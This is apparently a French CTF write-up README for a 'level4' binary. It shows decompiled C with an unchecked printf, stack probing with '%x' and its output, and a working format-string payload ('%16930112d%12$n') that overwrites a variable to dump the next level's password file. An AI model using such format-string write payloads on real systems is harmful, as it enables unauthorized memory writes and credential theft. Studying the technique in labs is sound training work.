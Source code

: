 ### README - Exploitation du programme `level4`

## Introduction

Nous avons un exécutable `level4` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

### Code source décompilé

Voici le code source décompilé du programme `level4` :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `p` utilise `printf` avec un argument utilisateur sans spécificateur de format, ce qui est vulnérable à une attaque par chaîne de format. La condition pour exécuter la commande `system` est que la variable `m` soit égale à `0x1025544`.

##Voici une explication simplifiée de ce que cela pourrait représenter :

%16930112d : Cela pourrait être une spécification de format utilisée pour formater un entier (d pour "decimal") avec une largeur spécifique de 16930112 caractères. Dans un contexte de formatage de chaîne en C, cela pourrait potentiellement causer des comportements inattendus, comme des dépassements de tampon.

%12$n : Cela indique que le 12e argument passé à la fonction de formatage (comme printf) devrait être interprété comme une adresse où écrire un nombre. C'est une technique couramment utilisée dans les attaques de type format string, où un attaquant essaie de manipuler directement la mémoire du programme.

= 0x1025544 : Cela pourrait représenter l'adresse en mémoire ou une valeur hexadécimale attendue ou générée par cette chaîne de formatage.



### Identification de la position de l'argument

Pour exploiter la vulnérabilité, nous devons trouver la position de notre chaîne injectée dans les arguments de `printf`.

1. **Utilisation d'une chaîne de format exploratoire pour afficher les valeurs sur la pile** :

   ```bash
   python -c 'print "AAAA" + " %x" * 20' | ./level4
   ```

2. **Analyse de la sortie** :

   ```
   AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
   ```

   Nous voyons `0x41414141` (qui représente "AAAA" en ASCII) à la 12ème position dans la sortie. Cela signifie que notre chaîne injectée est le 12ème argument de `printf`.



#### a. Exploitation par constructions du payload

```bash
(python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
```

### Conclusion

En utilisant cette approche, nous avons exploité la vulnérabilité de chaîne de format pour modifier la variable `m` et déclencher la condition qui exécute la commande système pour afficher le contenu de `/home/user/level5/.pass`.

### Code source décompilé pour explication

Voici à nouveau le code source décompilé pour une explication plus claire :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Explication

- **`fgets`** : Lit l'entrée utilisateur dans un buffer.
- **`printf`** : Affiche le buffer sans spécificateur de format, rendant le programme vulnérable aux attaques de chaîne de format.
- **Condition sur `m`** : Si `m` vaut `0x1025544`, le programme exécute `system("/bin/cat /home/user/level5/.pass")`.

En utilisant la vulnérabilité de chaîne de format, nous avons écrit `0x1025544` à l'adresse de `m` pour satisfaire cette condition et obtenir le mot de passe pour le niveau suivant.
